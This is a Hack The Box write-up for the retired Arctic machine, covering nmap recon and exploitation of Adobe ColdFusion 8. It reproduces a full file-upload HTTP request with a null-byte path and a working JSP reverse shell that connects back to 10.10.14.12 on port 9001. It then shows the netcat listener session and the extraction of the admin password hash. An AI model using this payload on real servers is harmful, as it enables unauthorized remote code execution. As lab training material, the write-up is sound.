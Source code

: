 # Arctic (Retired)

Retired at the time of attempt. Following the official write up and [ippsec](https://www.youtube.com/watch?v=e9lVyFH7-4o&abab)



## Recon 
### nmap
```bash
sudo nmap -sC -sV -p- -oA nmap/arctic 10.10.10.11
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-25 22:54 GMT
Nmap scan report for 10.10.10.11
Host is up (0.030s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### Port 8500 

NMAP indicates its running FMTP - Flight Message Transfer Protocol, which is a protocol used for flight data, which is very unlikely in a CTF.

Navigating to the port in a browser shows that it contains files and directories associated with Adobe ColdFusion, but its cripplingly slow (30 Seconds per request).  



![image-20210409185600087](/home/boolean/.config/Typora/typora-user-images/image-20210409185600087.png)



#### Ports 135 & 49154

Microsoft RPC



## Exploit (Metasploit) - User



Within the CFIDE we find a subdirectory Administrator, which when clicked sends redirects to an Adobe ColdFusion 



![image-20210409185913583](/home/boolean/.config/Typora/typora-user-images/image-20210409185913583.png)

A searchsploit query for ColdFusion shows a few exploits, most being XSS but one has an File Upload / Execution metasploit module. Running this will give a very quick reverse shell, IF it ran as expected. However there is an error, if the exploit is ran through burp using a proxy we can intercept the exploit. This method was demoed in the Ippsec video.

```http
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/YU.jsp%00 HTTP/1.1
Host: 127.0.0.1:8500
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Content-Type: multipart/form-data; boundary=_Part_974_542664965_2886893833
Content-Length: 1586
Connection: close

--_Part_974_542664965_2886893833
Content-Disposition: form-data; name="newfile"; filename="AJPDNDNU.txt"
Content-Type: application/x-java-archive

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream mk;
    OutputStream lm;

    StreamConnector( InputStream mk, OutputStream lm )
    {
      this.mk = mk;
      this.lm = lm;
    }

    public void run()
    {
      BufferedReader so  = null;
      BufferedWriter rke = null;
      try
      {
        so  = new BufferedReader( new InputStreamReader( this.mk ) );
        rke = new BufferedWriter( new OutputStreamWriter( this.lm ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = so.read( buffer, 0, buffer.length ) ) > 0 )
        {
          rke.write( buffer, 0, length );
          rke.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( so != null )
          so.close();
        if( rke != null )
          rke.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath = "cmd.exe";
    Socket socket = new Socket( "10.10.14.12", 9001 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>

--_Part_974_542664965_2886893833--
```

Then navigating to the file in the above payload will trigger the reverse shell within the jsp. In this case YU.jsp

```http
http://127.0.0.1:8500/userfiles/file/YU.jsp
```



This gets us a shell as User

```bash
(boolean㉿kalibox)[~/htb/arctic-pwnd]$ nc -lvnp 9001                                                                                                                                                             1 ⨯
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.11] 49491
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```



## Exploit (Manual) User

Using exploirt [14641](https://www.exploit-db.com/exploits/14641) we can attempt to get the password for the administrator. However, it is encrypted.

![image-20210409203157028](/home/boolean/.config/Typora/typora-user-images/image-20210409203157028.png)

The problem is that the password is hashed and I do not know the encryption method. Using view source we can copy and paste the password for cracking later. 

```bash
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
```

Also in the source we can see some information about the encryption methods used to create the above hash

```html
<form name="loginform" action="/CFIDE/administrator/enter.cfm" method="POST" onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
```

This tells us that the password is hashed using a SHA1, done on the client side. The password is then HMAC'd using a salt value, taken from the salt parameter, also on the client side

```html
<input name="salt" type="hidden" value="1618111486188">
```



